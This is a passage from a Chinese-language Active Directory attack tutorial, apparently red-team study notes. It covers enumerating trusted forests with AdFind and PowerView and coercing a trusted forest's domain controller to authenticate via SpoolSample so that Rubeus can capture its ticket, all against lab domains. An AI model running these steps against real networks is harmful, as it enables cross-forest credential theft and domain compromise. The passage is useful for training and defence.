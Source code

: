 然后使用dir访问：

```powershell
dir \\dc.test.com\C$
```

#### 外部信任和林信任

假设林信任环境如下：

* 当前林的域控：dc.a.com（Win Server 2012 R2）
* 目标林的域控：bdc.b.com（Win Server 2012 R2）
* 当前域的域控：adc1.a.com（Win Server 2012 R2）
* 目标域的域控：bdc1.b.com（Win Server 2012 R2）

外部信任环境的信任关系：

![image-20220423155113901](./image-20220423155113901.png)

##### 利用信任关系获取信任域的信息

因为外部信任和林信任中存在SID过滤机制，所以无法利用SID History获取权限。

ADFind:[Download AdFind 1.57.00 (softpedia.com)](https://www.softpedia.com/get/Programming/Other-Programming-Files/AdFind.shtml)

因此使用adfind工具获取信任域的完整信息，下面以获取Administrator用户的详细信息为例：

```powershell
adfind -h bdc1.b.com -sc u:Administrator
```

通过对比目标域和当前域的用户列表，找出同时加入者两个有域的用户。

##### 通过PowerView定于敏感用户

该脚本在PowerSploit中，命令：

```powershell
Get-DomainForeignGroupMember -Domain B.com
```

#### 利用无约束委派和MS-RPRN获取信任林权限

如果攻击者已经获取了域林中某个域控制器的权限，或者配置了无约束委派的任何服务器的权限，就可以使用MS-RPRN的RpcRemoteFindFIrstPrinterChangeNotification(Ex)方法，使信任林的域控制器向已被控制的服务器发送身份认证请求，利用捕获的票据获取信任林内任意用户的散列值。

首先在dc.a.com上使用rebeus工具监控身份认证请求。

该工具项目地址：[GhostPack/Rubeus: Trying to tame the three-headed dog. (github.com)](https://github.com/GhostPack/Rubeus)

```powershell
Rubeus.exe monitor /interval:5 /filteruser:BDC$
```

其中interval参数设置监控的时间间隔单位为秒，filteruser用于指定关注用户。

开启监听后，在命令行环境使用SpoolSample工具让域控bcd.b.com向dc.a.com发送身份认证请求：

```powershell
SpoolSample.exe  bdc.b.com dc.a.com
```

